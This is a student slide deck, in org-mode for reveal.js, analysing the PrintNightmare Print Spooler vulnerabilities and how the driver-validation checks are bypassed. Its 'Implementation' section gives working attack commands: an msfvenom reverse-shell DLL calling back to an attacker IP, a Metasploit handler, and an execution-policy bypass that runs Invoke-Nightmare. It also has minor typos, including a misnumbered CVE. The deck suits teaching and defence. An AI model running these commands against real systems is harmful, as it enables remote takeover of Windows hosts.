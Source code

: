:REVEAL_PROPERTIES:
#+REVEAL_ROOT: https://cdn.jsdelivr.net/npm/reveal.js
#+REVEAL_REVEAL_JS_VERSION: 4
#+REVEAL_THEME:night
#+REVEAL_INIT_OPTIONS: transition: 'concave', width:1200, height:800
#+REVEAL_TITLE_SLIDE: <h2 class="title">%t</h2><em>%s</em><br><br>%a<br>%d
#+reveal_extra_css: css/extra.css
#+OPTIONS: timestamp:nil toc:1 num:nil
:END:

#+title: PrintNightmare
#+author: Sudhanv Apte - 110318403, 李光耀 - 11159838, 陳峰楷 - 11159830, Abdillahi Ahmed - 110998420

* Introduction
- Windows has a service called Print Spooler
- Manages all local and network printing

** CVEs
- *CVE-2021-1675*, low class vulnerability, allowed privilege escalation
- Required direct access to the system thus labeled low risk
- Fixed by MS as of Jun 8, 2021
- *CVE-221-34527*, high risk, allowed remote code execution
- Rated 8.8 on the Common Vulnerabiltity Scoring System Scale
** Framework
- *mimikatz* was first to implement the exploit with both CVEs
- It was first created as a PoC to show vulns in MS authentication protocols
- Now it is used by attackers and pentesters to detect potential exploits

* Vulnerabiltity Analysis
- Two vulns are triggered by the PrintSpoolerService RPC method
  #+ATTR_HTML: :width 70%
  [[./assets/nspt/cve1.png]]

  #+ATTR_HTML: :width 70%
  [[./assets/nspt/cve2.png]]

** Continued ..

- Once the RPC functions are processed, the YAddPrinterDriverEx function is called
- There is no conditional judgment on the param dwFileCopyFlags
- The AddPrinterDriverEx function installs local/remote printer drivers and links config, data and driver files
  #+ATTR_HTML: :class middle :width 30%
  [[./assets/nspt/addprinter.png]]

** Continued ..
- dwFileCopyFLags can set "APD INSTALL WARNED DRIVER" flag
- When printer driver is added, the DLL is loaded with highest permission

  #+ATTR_HTML: :class middle :width 50%
[[./assets/nspt/error.png]]
** The Vulnerability
- Use Process monitor to capture exploit when DLL is loaded
  #+ATTR_HTML: :width 70%
  [[./assets/nspt/pm.png]]
- dwFileCopyFlags check is skipped when calling YAddPrinterDriverEx method
    #+ATTR_HTML: :width 60%
  [[./assets/nspt/yadd.png]]
    [[./assets/nspt/apd.png]]
** ValidateObjectAccess
- mimikatz will pass RpcBindingSetAuthInfoEx method with some params
- After execution, user sets username which is regarded as permission
- ValidateObjectAccess result is 0 for user and 1 for admin
    #+ATTR_HTML: :width 60%
  [[./assets/nspt/rpcbind.png]]

#+REVEAL: split
#+ATTR_HTML: :style text-align:left
- If the "APD INSTALL WARNED DRIVER" flag is 0x8000, the result of _bittest method will be 1
- v12 will be set to 0 and ValidateObjectAccess is bypassed
    #+ATTR_HTML: :width 60% :class middle
  [[./assets/nspt/bittest.png]]

** ValidateDriverInfo
- This part checks if the driver name is valid
- Execution flow is as follows:
  - Check if it is a local file
  - Check init key
  - Verify legitimacy of the driver file
    [[./assets/nspt/vdi.png]]
- When dwFileCopyFlags contains APD INSTALL WARNED DRIVER, the result is 0x8000 and value is 0
- This skips further verification by driver

    #+ATTR_HTML: :width 50%
  [[./assets/nspt/dwfile.png]]
** Get file handle
- Value of v13 is obtained by inverting lower 8 bits of dwFileCopyFlags
- Shifting it 4 bits to right and performing AND with 1
- v13 determines 5th param of the CreateInternalDriverFileArray
    #+ATTR_HTML: :width 60%
  [[./assets/nspt/spl.png]]
- After calculation, when value of lower 8 bits of dwFileCopyFlags is 0x1X, a5 can be set to 0
#+REVEAL: split
- When a5 is 0, validity check of the driver can be avoided
    #+ATTR_HTML: :width 50%
  [[./assets/nspt/a5.png]]
- Open file via CreateFile method, get 3 file handles
- Save them in space requested by DllAllocSplMem method for later file update use
  [[./assets/nspt/dll.png]]

** Copy files to driver space
- pConfigFile, pDataFile and pDriverPath save their respective file paths
- When moving files of the above members, the following operations are required:
  - Check file info of the file handle
  - Copy file to *"C:\Windows\System32\spool\drivers\x64\3\new"*
  - Using MoveNewDriverRelatedFiles, move files and realize the update file
    #+ATTR_HTML: :width 60%
    [[./assets/nspt/copy.png]]
** Update Driver Files
- Load the new config file
- When loaded it will run the driver's DLL
- Our DLL will be executed with highest permission
  [[./assets/nspt/update.png]]

* Implementation
- Environment:
  - Windows 10 1607
  - Kali 2022.3
  - Python 3.10.5

- Git repos used:
  - https://github.com/tryhackme/impacket
  - https://github.com/JohnHammond/CVE-2021-34527

- python requires impacket which can be installed through github

** Setup
- Setup exploit DLL
  #+begin_src
msfvenom -p /path/to/reverse_tcp LHOST=[YOUR_IP] LPORT=4545 -f dll -o reverse_tcp.dll
  #+end_src
- Execute DLL
  #+begin_src
smbserver.py share [YOUR_EXPLOIT_DLL_LOCATION] -smb2support

msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST [YOUR_IP]
set LPORT 4545
run -j
  #+end_src
- DLL Injection
    #+begin_src
powershell -ep bypass
..\CVE-2021-1675.ps1
Invoke-Nightmare -DLL C:\Users\test\Desktop\reverse_tcp.dll

# go back to msfconsole
session -i 1
    #+end_src

* Demo
* Conclusion
- Spooler vuln was first used in Stuxnet attack 10 years ago
- MS has taken step to ameliorate the situation and released patches within 5 days
- A quick way to stop the vulnerability is to stop the PrintSpooler service
- Another workaround is to disable the inbound remote printing operations via group policy
